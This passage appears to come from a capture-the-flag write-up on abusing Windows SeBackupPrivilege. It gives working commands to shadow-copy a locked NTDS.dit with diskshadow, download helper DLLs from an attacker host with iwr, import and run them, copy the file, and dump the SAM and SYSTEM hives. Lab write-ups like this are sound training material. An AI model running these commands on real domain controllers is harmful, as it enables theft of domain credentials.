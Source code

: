 As the `NTDS.dit` file is locked by default, we can use the Windows [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) utility to create a shadow copy of the `C` drive and expose it as `E` drive. The NTDS.dit in this shadow copy won't be in use by the system. First we have to create a script called script.txt that includes

```bash
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
exit

```

Now grab the file from python server and execute the following

```bash
iwr http://10.10.14.118:1234/script.txt -OutFile script.txt
iwr http://10.10.14.118:1234/SeBackupPrivilegeCmdLets.dll -OutFile SeBackupPrivilegeCmdLets.dll
iwr http://10.10.14.118:1234/SeBackupPrivilegeUtils.dll -OutFile SeBackupPrivilegeUtils.dll

diskshadow /s script.txt
```

For some reason, the file transferred don’t work, we can add file manually like this

```bash
Set-Content -Path script.txt -Value "SET METADATA C:\Windows\Temp\meta.cab"
Add-Content -Path script.txt -Value "set context clientaccessible"
Add-Content -Path script.txt -Value "set context persistent"
Add-Content -Path script.txt -Value "begin backup"
Add-Content -Path script.txt -Value "add volume C: alias cdrive"
Add-Content -Path script.txt -Value "create"
Add-Content -Path script.txt -Value "expose %cdrive% E:"
Add-Content -Path script.txt -Value "end backup"
Add-Content -Path script.txt -Value "exit"

diskshadow /s script.txt

dir E:
```

Now it works and the E drive exists.

```bash
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Users\svc_backup\Desktop\ntds.dit

reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```
